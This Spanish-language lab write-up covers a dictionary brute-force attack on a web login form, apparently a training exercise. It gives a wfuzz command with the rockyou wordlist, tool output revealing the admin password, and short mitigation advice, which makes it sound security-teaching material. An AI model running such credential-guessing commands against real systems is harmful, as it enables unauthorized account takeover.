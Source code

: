 wfuzz -w rockyou.txt "http://192.168.1.66/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"

es shadow

# Brute Force Attack
### A07:2021 – Identification and Authentication Failures 

Un **ataque de fuerza bruta** es un ataque que implica el craqueo de credenciales o contraseñas por uso de prueba y error.

Estos ataques pueden ser completamente manuales o automatizados mediante el uso de diccionarios de credenciales o usuarios (**dictionary attack**).

## Ataque

- **Localización**: http://<IP>/index.php?page=singin

Tenemos un formulario para ingresar unas credenciales y loguearse en la página. Hacemos las pruebas necesarias para ver si hay algún error de sanitización de input de usuario, como una [inyección SQL](./sql_injection_users.md). 

Tras ver que el iput está sanitizado, probamos con un ataque de fuerza bruta mediante un diccionario, el cual podemos automatizar con **wfuzz** ya que las credenciales se pasan por query:

```bash
wfuzz --hh 1988 -w rockyou.txt "http://<IP>/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"
```
Y el resultado es:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.11.200.124/index.php?page=signin&username=admin&password=FUZZ&Login=Login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                         
=====================================================================

000000073:   200        54 L     139 W      2086 Ch     "shadow" 
```


## Mitigación

- Uso de herramientas de limitación de peticiones por segundo para mitigar ataques de fuerza bruta.
- **Securización de credenciales** 
    - Monitorización de credenciales en filtraciones de datos
    - Implementación de protocolos de complejidad de contraseñas
    - 
- logs

## Referencias
- [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [A09:2021 – Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)